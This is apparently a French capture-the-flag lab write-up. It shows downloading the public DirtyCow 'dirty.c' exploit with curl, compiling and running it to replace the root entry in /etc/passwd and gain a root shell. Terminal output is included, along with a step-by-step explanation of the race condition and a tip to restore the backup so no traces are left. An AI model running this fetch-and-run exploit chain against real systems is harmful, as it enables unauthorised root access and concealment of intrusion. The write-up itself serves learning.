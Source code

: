 # WRITEUP2

## Pré-requis

Avant de commencer cet _exploit_, vérifiez que ces pré-requis sont
présents :
-   Une machine virtuelle : au choix VMware ou VirtualBox. Nous avons
    préféré VMware.
-   nmap : faites brew install nmap, l’installation prend une dizaine de
    minutes.
-   python 3.x.
-   Reprendre les étapes du `writeup1` jusqu'à la connexion en ssh avec : _laurie_.
-   scp -r -p user@serveur1:chemin/vers/dossier/source user@serveur2:chemin/vers/dossier/destination (envoyer le _script2.sh_ vers _laurie_)

## Le script

Les étapes suivantes sont reprises dans le script2.sh.

Nous téléchargons un script via _curl_ avec l'option _-O_ permettant de rediriger vers un fichier.
Ensuite nous compilons et lançons ce script avec un argument afin de choisir un nouveau mot de passe.

    $> curl -O https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
    % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                    Dload   Upload  Total   Spent    Left  Speed
    100  4815  100  4815    0     0  23803      0 --:--:-- --:--:-- --:--:-- 31266
    $> gcc -pthread dirty.c -o dirty -lcrypt
    $> ./dirty "petdefeu"
    /etc/passwd successfully backed up to /tmp/passwd.bak
    Please enter the new password: petdefeu
    Complete line:
    firefart:trzgUrWEhLNPY:0:0:pwned:/root:/bin/bash

    mmap: b7fda000
    madvise 0

    ptrace 0
    Done! Check /etc/passwd to see if the new user was created.
    You can log in with the username 'firefart' and the password 'petdefeu'.


    DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
    Done! Check /etc/passwd to see if the new user was created.
    You can log in with the username 'firefart' and the password 'petdefeu'.


    DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd

# Explications

Ce script utilise _l'exploit pokemon_ de la faille _dirtycow_ effective sur le kernel Unix durant 9 ans. Il remplace l'utilisateur `root` par un utilisateur custom.
L'user est invité à rentrer un nouveau mot de passe lors de l'éxecution du binaire ou à le passer en paramètre au moment de l'éxecution.
Le fichier `/etc/passwd` original est sauvegardé dans `/tmp/passswd.bak`; pour ne pas laisser de traces après le passage vous êtes invités à le remettre en place.

Si un fichier `/tmp/passswd.bak` existe déjà, le programme retourne un message d'erreur et s'arrête.
Une structure est initialisée (`username`, `user_id`, `info`, ...).
- Si il y a un second argument alors il est mis en mot de passe.
- Sinon, l'utilisateur est invité à taper son mot de passe.

Le mot de passe est crypté avec la fonction :
```char *crypt(const char *key, const char *salt);```
de la librairie `#include <crypt.h>`

Une chaine de caractères est alors créée contenant la structure complète.
Mmap est utilisé sur `/etc/passwd` avec le file descriptor (ce qui nous permettra ensuite d'écrire en mémoire ET sur le fichier).
La fonction `pid_t  fork(void);` est utilisé afin de créer un nouveau processus.

### Processus parent :

- Nous utilisons `pid_t  waitpid(pid_t pid, int *status, int options);` afin d'attendre le changement d'état du processus fils. `waitpid` suspend l'exécution du processus appelant jusqu'à ce que le fils spécifié par son pid ait changé d'état.
- `long ptrace(enum __ptrace_request requête, pid_t pid, void *addr, void *data);` est utilisé, cette fonction fournit au processus parent un moyen de contrôler l'éxécution d'un autre processus et d'éditer son image mémoire. Avec `PTRACE_POKETEXT` permettant d'écrire le password dans le fichier mappé.


### Processus enfant :

- `pthread_create` crée un nouveau thread qui exécute `madviseThread()` => manager le fonctionnement du système sur l'allocation; `MADV_DONTNEED` ne prévoit pas d'accès futur et donc le système ne vérifie pas les droits lors de l'écriture.
- Utilisation de `ptrace` avec `PTRACE_TRACEME`, utile pour le processus parent
- `kill` processus enfant
- `pthread_join` suspends le processus enfant

Le script script2.sh termine en se connectant en `firefart` donc le nouveau _super-user_

    $> su firefart
    Password:
    
On peut verifier que nous avons tous les droits en tapant la commande `id`:

    $> id
    uid=0(firefart) gid=0(root) groups=0(root)

__Bravo ! Vous êtes root !__
